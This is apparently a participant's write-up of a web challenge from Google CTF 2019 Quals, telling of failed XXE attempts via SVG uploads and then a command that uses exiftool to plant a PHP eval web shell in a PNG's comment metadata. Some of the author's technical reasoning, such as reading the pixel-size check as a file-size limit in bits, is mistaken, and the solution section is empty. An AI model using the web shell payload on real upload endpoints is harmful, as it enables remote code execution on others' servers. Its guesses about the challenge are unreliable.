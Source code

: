 # CTF Name – Google Capture The Flag 2019 (Quals)

* **Category:** Web
* **Points:** 500

## Challenge

> Upload your photoz. FYI: /info.php

>Alternative: http://gphotos2.ctfcompetition.com:1337
> http://gphotos.ctfcompetition.com:1337/


### Recon

So starting out I decided to look at the source code of the web page and found out that there was a link to the php source code. I downloaded the php code and looked through it. Noticing a comment saying totally not copy&pasted from somewhere... so I decided to copy and past the first couple lines of the code and found https://jbz.team/midnightsunctfquals2019/Rubenscube. It was a challenge from another CTF Called Midnight Sun CTF 2019 Quals - Rubenscube. At that point I knew that in order to get the flag there was some sort of XXE involved.

## The troubles

I decided to copy and paste the svg code into my own file and uploaded it. I waited and nothing happened it didn't even display on the page. I got really frustrated because at this point there was 4 hours left until the CTF was over. So I kept looking on the internet and kept copying and pasting svg code and every time nothing worked. Then it hit me I needed to add an xml beginning tag to the top of the svg code. So I did that uploaded it and the image was on the page but no XXE happened. At this point I lost all hope and wasn't able to finish on time. 

## The next day

I decided to give it another shot and saw that Bushwackers uploaded his write up and it was completely different from what I had tried. So being the stubborn person I am I kept going with my way and decided to make an image named hello.png and found out that exiftool can add comments just like imagemagick using the command
> exiftool -Comment='<?php eval($_GET["cmd"]);' hello.png
I uploaded the picture and it failed then I realized the image had to be 100x100 and went into pinta and resized it. I uploaded it to the page and it went through. So I downloaded the image to make sure the comment metadata stayed on the image but it didn't. So I got a little upset took a look at the code and noticed these lines
>$size = get_size($path, $mime_type);
        >if ($size[0] * $size[1] > 65536) {
         >   die;
        >}

I assumed that meant that the size of the image has to be bigger than 65536 to keep the comment metadata. So I drew an image and would keep checking to see if my image was over 65536. (I am assuming that 65536 is bits which would be 8.192 kb). After I got above that 65536 number I added the comment and sent it to the website. I downloaded the image, low and behold the comment metadata was still there. So then I made a svg file that returns the png file.

## Solution

upload/dd22ec3ed24a93b7f8d769aa30ceef35/aacccd6f148ecfd67df49aac4c92c7df.png

```

```